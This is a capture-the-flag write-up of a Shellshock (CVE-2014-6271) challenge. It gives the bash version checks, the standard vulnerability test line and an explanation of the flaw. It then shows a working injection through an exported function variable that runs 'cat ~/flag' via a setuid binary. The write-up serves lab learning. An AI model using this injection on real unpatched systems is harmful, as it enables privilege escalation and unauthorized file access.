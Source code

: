 - OK seems like in this one I need to run the shellshock vulnrability, i will read about it
- I ran /bin/bash --version - got:
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
- I ran ~/bash --version (the one the binary runs) and got:
GNU bash, version 4.2.25(1)-release (x86_64-pc-linux-gnu)
- Seems like  bash version prior to 4.1.2 is vulnrable for sure
- Running this line to check:
env x='() { :;}; echo vulnerable' bash -c "echo If you see the word vulnerable above, you are vulnerable to shellshock"
- The output was not vulnerable
- Now let's try the bash inside the home directory
env x='() { :;}; echo vulnerable' ~/bash -c "echo If you see the word vulnerable above, you are vulnerable to shellshock"
- This was indeed vulnrable!
- A little bit about the vulnrability (from https://techglimpse.com/fix-bash-shell-update-script-shellshock-fix/)
- In bash of course we can use env variables x=1, then echo $x.
- If we will open a new bash withing the current bash and try to echo $x, we won't see it any more - the variable is only in the scope of the bash it was created in
- What we can do, is use the export command, x=1, export -n x - then if we create a new bash x will be avaliable
- The following also works with bash functions like: fnc() { echo "testing"; } then export -f fnc
- The shellshock vulnrability is actually a bug in bash, where when a new bash is spawned, bash is executing the code - in order to define the function!
- So in a normal case it will execute the following code:
fnc() { echo "testing"; }
- So now fnc, is defined. BUT! on the vulnrable bash versions - bash DOES NOT stop executing the code after the closing brackets "}" - so what we can do is export the following variable:
fnc() { echo "testing"; }; echo "test";
- So the full command will look like this:
export fnc='() { echo "testing"; }; echo "test";'
- Then, when I will run a bash again whithin my shell - test will be printed!
- Ran in it on the server - worked well :)
- export fnc='() { echo "testing"; }; ./shellshock;'
- Now running ~/bash - will print shock_me - This is not what I need to do, the ./shellshock binary runs bash -c, and is setting his sid and gid so it will be able to access the flag flie
- So let's run the following:
- export fnc='() { echo "testing"; }; cat ~/flag;'
- Then let's run ./shellshock
- Nice! got the following output:
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)

# FLAG: only if I knew CVE-2014-6271 ten years ago..!!
# pwned.


 